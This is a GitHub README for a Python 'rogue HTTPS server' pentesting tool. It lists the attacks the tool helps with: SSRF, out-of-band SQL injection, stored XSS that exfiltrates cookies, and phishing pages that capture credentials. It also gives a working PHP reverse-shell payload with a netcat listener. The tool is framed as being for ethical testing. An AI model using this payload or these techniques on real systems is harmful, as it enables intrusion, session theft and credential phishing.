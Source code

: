 # rogue-https-server.py
Rogue HTTPS Server is a tool that allows you to create a Python 3.10/3.11 HTTPS/SSL server to receive encrypted connections, serve content, and run PHP scripts.

![1-photo](https://github.com/ajacobhack/rogue-https-server/assets/99199970/79a9f034-23a8-4853-bd9e-d4a245464b92)


Rogue HTTPS Server is a powerful and easy-to-use tool that allows you to create an HTTPS/SSL server with TLS in Python 3.10/3.11, primarily intended for ethical hacking tests that require a server with encrypted connections that may be able to connect to applications websites strictly configured for HTTPS traffic. It provides additional options such as assigning a free DNS to the specified IP address, automatic pem certificate creation, static server, and PHP file execution.

### **Characteristics**

- **HTTPS/SSL Server**: Creates a TCP/IP server at the specified IP address and port to listen for HTTPS/SSL connections, including 443.
- **Free DNS Support**: Assign a free subdomain to the IP address using DuckDNS to access your server more conveniently.
- **PHP code execution**: Executes PHP code on the server to perform dynamic and custom actions in your web applications.
- **Static File Management**: Serve static files, such as HTML, CSS, JavaScript, images and more, to display content on your server.

### Vulnerabilities that help identify, check and execute:
- Security configuration errors: destination server connects via https to external servers with self-signed certificates or no dns.
- External Service Interaction (DNS and HTTP): the target server/application can, due to a bad configuration, request external resources, instead of internal ones, through https and previous DNS resolution to any external server, in this case ours .
- Blind SSRF on the target server, which manages to connect via Out-Of-Band to our https server with dns, which could chain execution requests to internal resources.
- RCE PHP: If the target server or application can request resources from our server, it could execute a reverse PHP shell served by our server, achieving remote code execution.
- Stored XSS that when executed exfiltrates and sends cookies via HTTPS connection.
- Out-of-band SQL injection (OOB SQLi): an asynchronous SQL query can cause the server to perform out-of-band interactions with an external domain and server, ours.
- Phishing: HTTPS server with DNS could be used to serve cloned web pages to capture credentials.

## Use

1. Clone the Rogue HTTPS Server repository to your local machine.
    
     ```
     git clone https://github.com/ajacobhack/rogue-https-server.git
     ```
    
2. Navigate to the project directory: `cd rogue-https-server`.
3. Optional: If you want to assign free DNS using DuckDNS, make sure you have a DuckDNS subdomain and token.
4. Run the server using the following command:
    
     ```bash
     python3 rogue-https-server.py -i <IP_ADDRESS> -p <PORT> -s <SUBDOMAIN> -t <DUCKDNS_TOKEN>
     ```
    
     - `<IP_ADDRESS>`: The IP address on which you want the server to listen for incoming connections.
     - `<PORT>`: The port on which you want the server to listen for incoming connections.
     - `<SUBDOMAIN>` (optional): The subdomain you want to assign for free DNS using DuckDNS.
     - `<DUCKDNS_TOKEN>` (optional): The DuckDNS token needed to assign the subdomain.
5. The server will start listening for incoming connections on the specified IP address and port. If a DuckDNS subdomain and token is provided, the free DNS will be assigned using DuckDNS for the specified subdomain.
6. When an HTTP/HTTPS request is received, the server will respond as follows:
- If the request corresponds to an existing PHP file, the PHP code will be executed and the output will be sent to the client.
- If the request corresponds to an existing static file (HTML, CSS, JS, images, etc.), the content of the file will be sent to the client.
- If the request does not correspond to any existing file, a "404 Not Found" error response will be sent to the client.
- 
![2023-06-05 16_50_16-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/666c0bad-b23a-4ad6-a119-ac43246620b6)

![2023-06-05 16_51_54-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/a37a014d-e92b-4d76-adac-a4d6bb0db105)

![2023-06-05 16_52_31-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/e02c0e42-060d-4bfb-920e-9d285b10718b)


## Additional features

- **Automatic generation of PEM files**: If the server does not find the `cert.pem` and `key.pem` files in the working directory, it will automatically generate these files using OpenSSL.
- **Optional Free DNS Configuration**: You can provide a DuckDNS subdomain and token to assign free DNS using DuckDNS. This setting is optional and you can skip it if you don't want to use this functionality.

### **Example of use**

Suppose we want to run PHP code on the server and get an interactive shell connection to the server. Here is an example of how it can be achieved using the server:

1. Run the server at IP address **`127.0.0.1`** and port `443`:
    
     ```bash
     python3 rogue-https-server.py -i 127.0.0.1 -p 443
     ```
    
2. Create a PHP file with the following content and save it as **`shell.php`**:
    
     ```php
     <?php
     $sock = fsockopen("127.0.0.1", 4242); /*CHANGE IP and PORT*/
     $descriptors = array(
         0 => $sock,
         1 => $sock,
         2 => $sock
     );
     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
     ?>
     ```
    
3. Open your web browser and visit **`https://127.0.0.1:443/shell.php`**.
4. In a separate terminal session, start a netcat server to listen on port **`4242`**:
    
     ```bash
     nc -lnvp 4242
     ```
    
5. When you access **`https://127.0.0.1:443/shell.php`** in your browser, the server will execute the PHP code and open a shell connection in the netcat session.

![shell php con exit](https://github.com/ajacobhack/rogue-https-server/assets/99199970/57864150-711f-405e-bc91-fbfbab172a6e)

### **Contribution**

We welcome your contributions to Rogue HTTPS Server! If you encounter any issues, have an idea for improvement, or want to add new features, feel free to open an issue or submit a pull request on the official repository.

### **License**

This project currently does not have an open license.

### **Contact**

If you have any questions or suggestions, feel free to contact our team. You can email us at **[info@roguehttpsserver.com](mailto:info@roguehttpsserver.com)** or join our community on the Discord channel **[Rogue HTTPS Server Community](https://discord .gg/roguehttpsserver)**. We look forward to helping you!

### **Thanks**

I want to thank the community of developers and contributors who have made this project possible. Your contributions and feedback have been instrumental in improving Rogue HTTPS Server and providing a useful and reliable tool.

### **Legal warning**

Rogue HTTPS Server is a tool designed to be used for development and ethical purposes only. We are not responsible for any misuse of this tool. Make sure to comply with local laws and regulations when using Rogue HTTPS Server.
